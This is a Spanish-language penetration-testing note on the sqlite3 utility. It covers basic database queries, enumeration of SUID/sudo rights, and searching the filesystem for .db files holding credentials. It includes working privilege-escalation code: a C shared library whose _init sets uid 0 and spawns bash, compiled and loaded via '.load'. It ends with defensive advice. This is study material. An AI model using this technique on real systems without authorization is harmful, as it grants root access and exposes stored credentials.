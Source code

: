 
---
# Herramienta: Sqlite3

## Introducción

SQLite es una base de datos relacional ligera que no requiere servidor, ampliamente utilizada en sistemas embebidos, escritorios y aplicaciones móviles. La utilidad `sqlite3` permite interactuar directamente con archivos `.db` desde la línea de comandos.

En entornos de pruebas de penetración, SQLite puede ser relevante cuando encontramos bases de datos locales accesibles (por permisos inseguros) o incluso cuando el binario de `sqlite3` tiene permisos SUID o puede ser ejecutado con privilegios elevados mediante `sudo`.

---

## Objetivo

Comprender el uso de la utilidad `sqlite3`, cómo manipular bases de datos locales, y cómo abusar del binario para escalar privilegios cuando es posible ejecutarlo con permisos elevados.

---

## Enumeración y contexto

Acciones comunes para identificar posibles vectores de ataque:

```bash
which sqlite3
ls -l $(which sqlite3)
sudo -l
````

- Si el binario `sqlite3` tiene permisos SUID o puede ejecutarse como root, se puede intentar abusar de su capacidad de ejecución de código externo vía funciones definidas en C o carga de extensiones.
    

---

## Uso básico de SQLite3

### Ver contenido de una base de datos

```bash
sqlite3 archivo.db
```

Una vez dentro del prompt:

```sql
.tables         -- lista las tablas
.schema         -- muestra la estructura de las tablas
SELECT * FROM usuarios;  -- consulta básica
.quit           -- salir
```

---

## Escalada de privilegios con `sqlite3`

Si `sqlite3` puede ejecutarse como root, existen varios métodos de explotación. Uno de los más conocidos es abusar de la carga de extensiones compartidas (`.so`) maliciosas escritas en C.

---

### Método 1: Cargar una extensión maliciosa

**1. Escribir un archivo en C para obtener una shell:**

```c
// shell.c
#include <stdlib.h>
void _init() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

**2. Compilarlo:**

```bash
gcc -fPIC -shared -o shell.so shell.c
```

**3. Cargarlo desde sqlite3:**

```bash
sqlite3
sqlite> .load ./shell.so
```

**Resultado:** se abre una shell como root (si el binario se ejecuta con privilegios).

---

### Método 2: Ejecutar comandos arbitrarios si la función `load_extension` está habilitada

Algunas compilaciones permiten ejecutar código externo usando extensiones o funciones definidas.

---

## SQLite3 como vector de acceso a información sensible

Si encontramos archivos `.db` con contenido interesante:

```bash
find / -name "*.db" 2>/dev/null
```

Y luego:

```bash
sqlite3 archivo.db
.tables
SELECT * FROM nombre_tabla;
```

Esto puede revelar:

- Credenciales en texto plano o hasheadas.
    
- Configuraciones de servicios.
    
- Tokens de autenticación o sesiones.
    

---

## Recomendaciones defensivas

- Evitar que el binario `sqlite3` tenga permisos SUID.
    
- Evitar configuraciones `sudo` que permitan su ejecución por usuarios no privilegiados.
    
- Revisar periódicamente los permisos de archivos `.db` críticos.
    
- Cifrar los datos sensibles dentro de bases de datos SQLite cuando sea viable.
    

---

## Referencias

- [SQLite3 - Sitio oficial](https://sqlite.org/)
    
- [GTFOBins - Sqlite3](https://gtfobins.github.io/gtfobins/sqlite3/)
    

---

Este documento ha mostrado cómo utilizar `sqlite3` de forma básica para el análisis de bases de datos, así como cómo su abuso puede llevar a una escalada de privilegios en ciertos escenarios mal configurados.


